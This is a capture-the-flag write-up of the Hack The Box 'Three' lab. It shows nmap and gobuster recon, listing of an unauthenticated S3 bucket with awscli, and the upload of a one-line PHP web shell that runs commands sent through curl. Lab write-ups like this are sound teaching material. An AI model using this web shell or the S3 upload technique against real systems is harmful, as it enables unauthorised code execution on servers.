





---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Three

## Summary

## Summary

As one of Starting Point's Tier 1 boxes, [Three](https://app.hackthebox.com/starting-point) offers a direct approach to **web fuzzing** and **AWS S3** exploration. By initially **enumerating a domain name** through the webpage and proceeding to fuzz it, we uncover an **S3 bucket**. Further enumeration exposes **misconfigurations** in the S3 bucket, granting us access to its contents and the ability to upload files. Leveraging this vulnerability, we successfully upload a **webshell** and gain control over the `flag.txt` file, ultimately compromising the system.

<table><thead><tr><th width="88" align="right">Step</th><th width="235">Action</th><th width="153">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td>Browser</td><td>Domain name</td></tr><tr><td align="right">2</td><td>Fuzzing</td><td><a href="../../tools/web/dirbusting/gobuster.md">gobuster</a></td><td>S3 bucket</td></tr><tr><td align="right">3</td><td>AWS Enumeration</td><td><a href="../../tools/web/cloud/aws.md#usage">awscli</a></td><td>Foothold path</td></tr><tr><td align="right">4</td><td>Webshell upload</td><td><a href="../../tools/web/cloud/aws.md#usage">awscli</a>, <a href="../../tools/web/curl.md">curl</a>, <a href="../../tools/text/jq.md">jq</a></td><td>Foothold</td></tr></tbody></table>

## Recon

### Port Scan

Let's start with a port-scan using [Nmap](../../tools/port-scanners/nmap.md).

```bash
$ sudo nmap -T4 -open -sC -sV 10.129.206.82

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: The Toppers
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are just 2 services listening:

1. An SSH service on port `22`, but we don't have credentials to use it.
2. An Apache web server on port `80` which probably be the focus on this box.

### Web Server Enumeration

By visiting the IP address via our browser we encounter a static site; nothing really works. The only useful thing there is a domain name (`thetoppers.htb`) on the `CONTACT` page (Figure 1).

<figure><figcaption><p>Figure 1: The <code>thetoppers.htb</code> domain on the <code>CONTACT</code> page.</p></figcaption></figure>

Before moving forward, we will add it on our local DNS file (`/etc/hosts`) and we will also check what technologies this site uses.


```bash
# Confirming that the domain was added to our local file
$ grep toppers /etc/hosts
10.129.206.82   thetoppers.htb
# Checking the technologies used on the site
$ whatweb thetoppers.htb
http://thetoppers.htb [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], Email[mail@thetoppers.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.206.82], Script, Title[The Toppers]
```


### Fuzzing

Next, we can start our [fuzzing](../../tools/web/dirbusting/) scans. We will check for potential subdirectories, subdomains, and vhosts.


```bash
# Scanning for subdirectories
gobuster dir -u http://thetoppers.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
# Scanning for subdomains
gobuster dns -d thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -i
# Scanning for virtual hosts
gobuster vhost -u http://thetoppers.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```


The scan for subdirectories comes back with only the homepage (`/index.php`) and an `/images` directory, whereas the vhost scan returns nothing. Luckily, we were able to find out some vhosts (Figure 2).

<figure><figcaption><p>Figure 2: Scanning for virtual hosts with <code>gobuster</code>.</p></figcaption></figure>

Before trying to access `s3.thetoppers.htb` we will need to first add it on our `/etc/hosts` file.

```bash
$ grep thetop /etc/hosts
10.129.206.82   thetoppers.htb s3.thetoppers.htb
```

### Foothold

### AWS Enumeration

`S3` is the [Amazon's Simple Storage Service (AWS S3)](https://aws.amazon.com/s3/) and there are specific tools to interact with it, such as [`awscli`](../../tools/web/cloud/aws.md). Before interacting with an S3 bucket we need to configure our connection, typically, using the AWS Access and Secret keys. However, an S3 bucket can also be misconfigured, i.e., do not check for authentication. If the latter case is true, we can configure it using anything we wish.

After doing that (Figure 3.1), we can proceed on listing the S3 buckets that are available on the server (Figure 3.2), and if we find one, what's in it (Figure 3.3).

```bash
# Configuring AWS connection
$ aws configure
AWS Access Key ID [****************temp]: temp
AWS Secret Access Key [****************temp]: temp
Default region name [temp]: temp
Default output format [temp]: temp

# Listing all s3 server buckets
$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2024-04-29 06:46:43 thetoppers.htb

# Listing all files within the specified s3 bucket
$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2024-04-29 06:46:43          0 .htaccess
2024-04-29 06:46:43      11952 index.php
```

<figure><figcaption><p>Figure 3: Configuring and exploring the S3 vhost. </p></figcaption></figure>

We notice that the `s3://thetoppers.htb` bucket contains the `index.php` file and the `images/` directory; the same files we found during our [directory scan](three.md#fuzzing) before. Thus, we can safely infer that this is the webroot (`http://thetoppers.htb`) of the static web site.

### RCE[^1]

Since we know the site's webroot as well as the programming language used (based on the `index.php` file), we can try to create a PHP file (`shell.php`) containing a [PHP webshell](../../tools/shells/webshells.md#php), upload it on the S3 bucket, and try to interact with it (Figure 4).

```php
<?php system($_GET['cmd']); ?>
```

```bash
# Uploading our web shell to the S3 bucket
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
# Interacting with the web shell
curl http://thetoppers.htb/shell.php?cmd=id
curl http://thetoppers.htb/shell.php?cmd=pwd
```

<figure><figcaption><p>Figure 4: Uploading the web shell file to S3 and interacting with it. </p></figcaption></figure>

We could continue by uploading a reverse shell script in addition to the web shell, but for the sake of simplicity we won't. In order to find the `flag.txt` file, we will need to explore the host using commands which includes spaces, such as `ls ../` (Figure 5.1).  For achieving that through our webshell, we will need to [URL-encode](../../tools/crypto.md#url) our commands, in this case use the `+` symbol instead of space (Figure 5.2). We can also use a more "advanced" technique including bash command substitution, `jq` and a pipe (`|`) to pass any command we like "directly" to it (Figure 5.3).

<figure><figcaption><p>Figure 5: Using URL-encoding to find and read the flag.</p></figcaption></figure>

[^1]: Remote Code Execution
